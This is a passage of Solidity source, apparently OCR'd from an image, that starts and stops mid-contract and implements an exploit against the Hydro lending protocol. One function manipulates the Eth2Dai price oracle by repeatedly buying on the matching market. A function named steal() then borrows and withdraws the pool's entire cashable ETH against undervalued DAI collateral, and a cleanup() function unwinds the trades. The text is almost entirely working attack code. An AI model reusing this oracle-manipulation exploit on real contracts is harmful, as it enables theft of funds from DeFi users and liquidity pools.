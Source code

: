 ```
        DAI.getFromUniswap(DAI.balanceOf(address(DAI.getUniswapExchange())) * 75 / 100);
    }
    
    function skewMatchingMarket() internal {
        uint start = DAI.balanceOf(address(this));
        WETH.deposit.value(address(this).balance)();
        WETH.approve(address(MATCHING_MARKET), uint(-1));
        while (DAI_ORACLE.getEth2DaiPrice() != 0) {
            MATCHING_MARKET.buyAllAmount(DAI, 5000 ether, WETH, uint(-1));
        }
        boughtFromMatchingMarket = DAI.balanceOf(address(this)) - start;
        WETH.withdrawAll();
    }
    
    function steal() external {
        HydroLike.Market memory ethDaiMarket = HYDRO.getMarket(ETHDAI_MARKET_ID);
        HydroLike.BalancePath memory commonPath = HydroLike.BalancePath({
            category: HydroLike.BalanceCategory.Common,
            marketID: 0,
            user: address(this)
        });
        HydroLike.BalancePath memory ethDaiPath = HydroLike.BalancePath({
            category: HydroLike.BalanceCategory.CollateralAccount,
            marketID: 1,
            user: address(this)
        });
        
        uint ethWanted = HYDRO.getPoolCashableAmount(HYDRO_ETH);
        uint daiRequired = ETH_ORACLE.getPrice(HYDRO_ETH) * ethWanted * ethDaiMarket.withdrawRate / DAI_ORACLE.getPrice(DAI) / 1 ether + 1 ether;
        
        printf("ethWanted=%.18u daiNeeded=%.18u\n", abi.encode(ethWanted, daiRequired));
        
        HydroLike.Action[] memory actions = new HydroLike.Action[](5);
        actions[0] = HydroLike.Action({
            actionType: HydroLike.ActionType.Deposit,
            encodedParams: abi.encode(address(DAI), uint(daiRequired))
        });
        actions[1] = HydroLike.Action({
            actionType: HydroLike.ActionType.Transfer,
            encodedParams: abi.encode(address(DAI), commonPath, ethDaiPath, uint(daiRequired))
        });
        actions[2] = HydroLike.Action({
            actionType: HydroLike.ActionType.Borrow,
            encodedParams: abi.encode(uint16(ETHDAI_MARKET_ID), address(HYDRO_ETH), uint(ethWanted))
        });
        actions[3] = HydroLike.Action({
            actionType: HydroLike.ActionType.Transfer,
            encodedParams: abi.encode(address(HYDRO_ETH), ethDaiPath, commonPath, uint(ethWanted))
        });
        actions[4] = HydroLike.Action({
            actionType: HydroLike.ActionType.Withdraw,
            encodedParams: abi.encode(address(HYDRO_ETH), uint(ethWanted))
        });
        DAI.approve(address(HYDRO), daiRequired);
        HYDRO.batch(actions);
    }
    
    function cleanup() external {
        DAI.approve(address(MATCHING_MARKET), uint(-1));
        MATCHING_MARKET.sellAllAmount(DAI, boughtFromMatchingMarket, WETH, uint(0));
        WETH.withdrawAll();
```